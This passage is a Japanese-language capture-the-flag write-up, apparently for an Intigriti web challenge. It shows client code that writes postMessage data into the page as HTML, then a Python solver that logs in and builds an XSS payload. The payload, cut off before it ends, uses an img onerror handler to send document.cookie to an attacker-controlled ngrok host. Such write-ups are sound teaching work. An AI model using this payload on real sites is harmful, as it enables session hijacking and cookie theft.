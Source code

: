 `postMessage`された値がどのように処理されるか確認する。

```javascript:performance_chart.js
const renderPerformanceChart = (taskData) => {

    /* snap */
    const today = new Date().toISOString().split("T")[0];
    const todayTask = taskData.find((task) => task.date === today);

    const todayTasksDiv = d3.select("#todayTasks");
    if (todayTask) {
        todayTasksDiv.html(`Tasks Completed Today: ${todayTask.tasksCompleted}`);
    } else {
        todayTasksDiv.html("Tasks Completed Today: 0");
    }

    /* snap */
};
/* snap */
window.addEventListener(
    "message",
    (event) => {
        if (event.source !== window.parent) return;
        renderPerformanceChart(event.data);
    },
    false
);
```

`task.date`が`today`と一致する場合、`task.tasksCompleted`がHTMLとして埋め込まれる。これを利用して任意のjavascriptを実行できる。

親フレームも`postMessage`を受け取って、その内容をHTMLとして埋め込むことができる。
```javascript:profile.js
window.addEventListener(
    "message",
    (event) => {
        if (event.source !== frames[0]) return;

        document.getElementById(
            "totalTasks"
        ).innerHTML = `<p>Total tasks completed: ${event.data.totalTasks}</p>`;
    },
    false
);
```

以下のソルバーでフラグをゲットした

```python:solver.py
from base64 import b64encode
import requests

URL = "https://workbreak-4.ctf.intigriti.io/"
EVIL = "https://tchenio.ngrok.io/"

s = requests.session()
r = s.post(URL + 'api/auth/login',json={
    'email': 'tepel@a.com',
    "password": "p@ssw0rd"
})
print(r.url)
user_id = r.url.split('/')[-1]

payload = f'''
window.parent.postMessage({{
    type: "message",
    totalTasks: "<img src=X onerror=document.location.assign('{EVIL}'+document.cookie)>"
```